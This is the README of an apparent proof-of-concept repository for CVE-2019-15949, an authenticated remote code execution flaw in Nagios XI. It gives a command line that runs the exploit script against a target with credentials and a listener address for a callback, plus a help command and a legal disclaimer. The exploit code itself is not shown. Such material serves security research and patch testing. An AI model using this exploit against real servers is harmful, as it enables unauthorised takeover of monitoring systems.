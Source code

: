 # Nagiosxi CVE-2019–15949

A proof-of-concept for CVE-2019–15949 Nagiosxi Authenticated RCE

## Getting Started

### Executing program

* With python3
```
python3 exploit.py -t 'http://nagios.xi/' -b /nagiosxi/ -u username -p password -lh 127.0.0.1 -lp 1337
```

## Help

For help menu:
```
python3 exploit.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.